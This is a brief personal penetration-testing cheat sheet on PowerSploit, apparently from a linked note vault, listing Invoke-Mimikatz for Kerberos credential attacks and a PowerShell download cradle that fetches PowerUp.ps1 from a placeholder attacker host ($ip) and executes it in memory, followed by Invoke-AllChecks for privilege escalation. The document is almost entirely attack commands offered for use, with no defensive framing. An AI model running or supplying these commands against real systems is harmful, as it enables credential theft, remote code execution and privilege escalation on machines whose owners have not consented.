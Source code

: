 # PowerSploit Helpsheet

For [[Attacking-Kerberos]] with Kerberoasting
```powershell
Invoke-Mimikatz
```

First load into memory unless you have WinRM access and are using [[evil-winrm-Cheatsheet]]
```powershell
# Obtain powershell reverse shell on then execute powershell 
IEX(New-Object Net.WebClient).downloadString('http://$ip/PowerUp.ps1')
Invoke-AllChecks
```

For individual checks, exploits, hijacks and enumeration see this  page: 
[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)